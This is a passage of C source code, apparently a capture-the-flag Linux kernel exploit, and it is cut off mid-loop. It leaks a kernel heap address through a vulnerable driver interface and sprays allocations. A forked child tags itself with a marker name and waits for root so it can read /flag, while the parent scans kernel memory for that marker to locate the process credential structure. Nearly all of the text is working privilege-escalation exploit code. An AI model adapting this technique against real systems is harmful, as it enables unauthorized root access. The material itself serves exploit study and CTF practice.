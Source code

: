 ```c
    //Read(fd,0,0x20,0xe0);
    //leak heap
    memset(usr_buf,'\x00',BUFSZ);
    Read(fd,0xc7,0xfff2ff9da00023f2L,0x8);
    char* ptr;
    unsigned long long heap_base = 0;
    char hex[0x10];
    strncpy(hex,usr_buf,0x2);
    printf("[*]hex:%x\n",hex[1]);

    //heap_base1 = strtoull(usr_buf,usr_buf+0x10,0x10);
    int count = 0;
    for(int i = 0;i<8;i++)
        if(usr_buf[i] != '\x00')
            count += 1;
    printf("total count:%d\n",count);
    for(int i = 0; i < 8;i++){
        unsigned long long tmp;
        sscanf(&usr_buf[i],"%c",&tmp);
        tmp = tmp & 0xff;
        printf("[*]char:%x\n",usr_buf[i]);
        if(strlen(&usr_buf[i]) == 0)
            tmp = 0;
        printf("[*]tmp:%x\n",tmp);
        heap_base += (tmp << (8*i));
    }
    printf("[*]leak heap success:0x%llx\n",heap_base);
    for(int i = 0;i < 0x10-4;i++)
        Malloc(fd,i,ini_buf);
    //for(int i = 0;i < 0x10-4;i++)
    //    Free(fd,i);
    int pid = fork();
    if(pid == 0){
        //sub processs
        char hidden_str1[0x10];
        strncpy(hidden_str1,"ama2in9PwnForFun",0x10);
        prctl(PR_SET_NAME,hidden_str1);
        while(getuid()){
            printf("[-] not yet\n");
            sleep(2);
        }
        printf("[*]root");
        system("cat /flag");
    }
    //fuck 
    unsigned long long start_addr = heap_base;
    //unsigned long long start_addr = heap_base & 0xfffffff000000000;
    unsigned long long end_addr = heap_base + (0xffff88801e3de000-0xffff88800017d400);
    //unsigned long long end_addr = 0xffffc80000000000;
    printf("[*]fuck start addr:0x%llx\n",start_addr);
    printf("[*]fuck end addr:0x%llx\n",end_addr);
    size_t off_idx = (start_addr-0xffffffffa0002420) / 0x10;
    printf("[*]fuck idx:0x%llx\n",off_idx);
    printf("[*]finding str:%s\n",hidden_str);
    unsigned long long result = 0;
    size_t cred = 0;
    size_t real_cred = 0;
    size_t target_addr = 0;
    for(;start_addr < end_addr;start_addr+=0x1000){

        //strncpy(ini_buf,usr_buf,8);
        memset(usr_buf,'\x00',BUFSZ);
        //sprintf(usr_buf,"%llu",&start_addr);
```